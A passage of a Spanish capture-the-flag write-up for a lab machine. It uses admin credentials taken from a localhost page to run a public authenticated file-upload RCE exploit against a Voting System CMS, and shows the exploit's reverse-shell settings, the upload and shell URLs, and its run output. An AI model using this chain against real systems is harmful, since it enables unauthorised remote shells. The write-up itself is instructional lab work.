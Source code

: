 Observamos que si se ha logrado obtener la información de la página desde el localhost. Observamos unas credenciales, en este caso de administrador, iremos a la página de administrador para intentar entrar:

![](/imagenes/Love/love10.png)

Estamos dentro del CMS como administradores. Si volvemos a mirar los resultados de `searchsploit` encontramos esto:

```
Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)                                                                                                        | php/webapps/49445.py
```
Tendríamos un RCE si estamos autenticados, y es el caso por lo tanto, vamos a ver que hace el código:

```
# --- Edit your settings here ----
IP = "192.168.1.207" # Website's URL
USERNAME = "potter" #Auth username
PASSWORD = "password" # Auth Password
REV_IP = "192.168.1.207" # Reverse shell IP
REV_PORT = "8888" # Reverse port
# --------------------------------
```

Vemos un área donde debemos ingresador los datos para ganar acceso al sistema. Si cambiamos los valores y ejecutamos el código no da un error. Si inspeccionamos el código nos damos cuenta que se realizan varias peticiones con estas url:

```
INDEX_PAGE = f"http://{IP}/votesystem/admin/index.php"
LOGIN_URL = f"http://{IP}/votesystem/admin/login.php"
VOTE_URL = f"http://{IP}/votesystem/admin/voters_add.php"
CALL_SHELL = f"http://{IP}/votesystem/images/shell.php"
```

sin embargo, si observamos nuestro index:
```
http://10.10.10.239/admin/home.php
```
No existe la ruta votesystem, por lo tanto, lo cambiaremos en el script, si lo ejecutamos de nuevo:
```
 python3 49445.py
Start a NC listner on the port you choose above and run...
Logged in
Poc sent successfully
```
